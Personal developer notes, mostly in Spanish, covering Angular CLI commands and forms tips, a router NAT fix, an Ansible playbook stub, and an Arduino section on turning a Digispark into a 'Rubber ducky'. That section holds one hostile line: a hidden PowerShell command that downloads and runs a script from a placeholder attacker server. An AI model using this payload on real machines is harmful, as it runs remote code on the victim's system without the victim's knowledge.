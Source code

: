 ng update @angular/compiler-cli --force - Error: compiler_cli_1.readConfiguration is not a function

ng generate component | class | etc

ngNativeValidate -> Para forms de los que se quiera usar las validaciones de html5

ng generate component / class 

ng build --prod

lo que esta entre comillas es el objeto del componente y lo que esta entre parentesis el input del otro

Forms

si le pongo ngModel al input es necesario que tenga el atributo name

si pongo un div con ngModelGroup los campos que esten  abajo van a ser hijos en el json

ngModel es para tomar los valores del form y [ngModel]="" es para escribir en el formulario valores

si cambio un valor del formulario solo lo veo en el ngModel y no en el [ngModel] para eso hay que poner [(ngModel)]

Blur - ng-touched / ng-untouched

Change - ng-dirty / ng-pristine

valida el valor, por ejemplo si tiene el required	- ng-valid / ng-invalid

@input() -> atributo de la clase

npm i firebase angularfire2

ng serve --host=0.0.0.0 --disableHostCheck=true

Rejected request from RFC1918 IP to public server address

I have to add the NAT Forwarding entry in my router to forward the port 80 request to my local IP Address, and that solved the issue.


# Arduino

Rubber ducky - digispark

[http://digistump.com/wiki/digispark/tutorials/connecting#using_the_digispark_with_the_arduino_ide](http://digistump.com/wiki/digispark/tutorials/connecting#using_the_digispark_with_the_arduino_ide)

"powershell.exe -W Hidden -C iex (new-object net.webclient).downloadstring('attacker_server')"


# Ansible

playbook.yml

--- (comienzo de script)

-name: name
hosts: targetNode (sale del inventory)
